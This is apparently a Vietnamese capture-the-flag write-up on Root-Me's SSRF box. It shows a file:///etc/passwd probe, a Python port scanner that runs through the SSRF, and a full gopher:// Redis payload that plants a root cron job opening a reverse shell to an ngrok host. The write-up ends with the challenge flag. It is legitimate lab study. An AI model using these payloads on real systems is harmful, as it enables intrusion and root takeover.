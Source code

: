 # Trần Mạnh Huy

```
Statement
Objectif final : Get root privileges on SSRF box CTF All The Day to read the flag in the /root directory !
Validation flag is stored in the file /passwd

```
Ở đây web app cho mình nhập một url và nó sẽ thực hiện crawl dữ liệu từ cái url về, thử với đường dẫn http://youtube.com 

![](https://github.com/manhhuy2002/hello-world/blob/main/ssrf_rootme/ssrf_01.jpg)

Để test lỗ hổng ssrf, ta có thể fuzz qua payload như: file:///etc/passwd  để thử đọc file có trên web server bằng cách sử dụng giao thức đọc file.

![](https://github.com/manhhuy2002/hello-world/blob/main/ssrf_rootme/ssrf_02.jpg)

Nhưng bằng cách này thì mình không thể đọc các file root mà chỉ có thể đọc được các file trong quyền của mình, nên sẽ kh đọc được flag. Vì vậy mình tiếp tục fuzz tiếp xem những port nào trên local đang chạy. Ở đây mình có thể dùng  Intruder của burp để phát hiện các cổng dịch vụ đang mở hoặc dùng script:

![](https://github.com/manhhuy2002/hello-world/blob/main/ssrf_rootme/ssrf_03.jpg)

![](https://github.com/manhhuy2002/hello-world/blob/main/ssrf_rootme/ssrf_04.jpg)



### Hoặc script:

```
import threading,requests
from queue import Queue
 
def scan(port):
    h={"Content-Type": "application/x-www-form-urlencoded",}
    url= "http://ctf09.root-me.org/index.php"
    data={"url":f"localhost:{port}"}
    r= requests.post(url,data=data)
    if "Connection refused" not in r.text:
        print(f"[+] FOUND AT PORT: {port}")
 
def threader():
    while True:
        worker = q.get()
        scan(worker)
        q.task_done()
 
q = Queue()
for i in range(100):
    t = threading.Thread(target=threader)
    t.daemon = True
    t.start()
 
for worker in range(1, 10000):
    q.put(worker)
 
q.join()

```

![](https://github.com/manhhuy2002/hello-world/blob/main/ssrf_rootme/ssrf_05.jpg)

![](https://github.com/manhhuy2002/hello-world/blob/main/ssrf_rootme/ssrf_06.jpg)


Sau khi fuzz qua, mình sẽ thấy được server nó đang dùng redis chạy với port 6379. Thông thường Redis service sẽ được chạy với đặc quyền root trong intranet và mình có thể sử dụng giao thức Gopher để lợi dụng điều đó.

```
Theo mặc định, Redis sẽ bị ràng buộc với 0.0.0.0:6379. Nếu các chính sách liên quan không được thông qua, chẳng hạn như thêm quy tắc tường lửa để tránh truy cập ip nguồn không đáng tin cậy khác, v.v., điều này sẽ hiển thị dịch vụ Redis cho mạng công cộng. Nếu không đặt xác thực mật khẩu (thường là trống), nó sẽ khiến bất kỳ người dùng nào truy cập Redis mà không được phép nếu họ có thể truy cập máy chủ mục tiêu và Đọc dữ liệu từ Redis.
Do đó, lỗ hổng này có thể sử dụng SSRF để bỏ qua các hạn chế liên kết cục bộ mà không cần định cấu hình mật khẩu, để tấn công các ứng dụng mạng nội bộ trên mạng bên ngoài.

```

Mình sẽ sử dụng tool tên là Gopherus để tạo ra payload reverse shell. Ngoài ra mình cũng sẽ sử dụng ngrok để thực hiện forward kết nối đến local interface của mình
> link tool:https://github.com/tarunkant/Gopherus

![](https://github.com/manhhuy2002/hello-world/blob/main/ssrf_rootme/ssrf_07.jpg)

```
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2472%0D%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20bash%20-c%20%22sh%20-i%20%3E%26%20/dev/tcp/0.tcp.ap.ngrok.io/13392%200%3E%261%22%0A%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2416%0D%0A/var/spool/cron/%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A

```
Nếu decode nó ra, mình có thể thấy nó là gói dữ liệu TCP của reverseShell được viết bằng bash.

Giờ thì ném payload lên và chờ sẵn ở port 1234. Chờ 1 lúc cũng được:

![](https://github.com/manhhuy2002/hello-world/blob/main/ssrf_rootme/ssrf_08.jpg)

Đọc được flag:

![](https://github.com/manhhuy2002/hello-world/blob/main/ssrf_rootme/ssrf_09.jpg)


> Flag: SSRF_PwNiNg_v1@_GoPh3r_1s_$o_c00l!
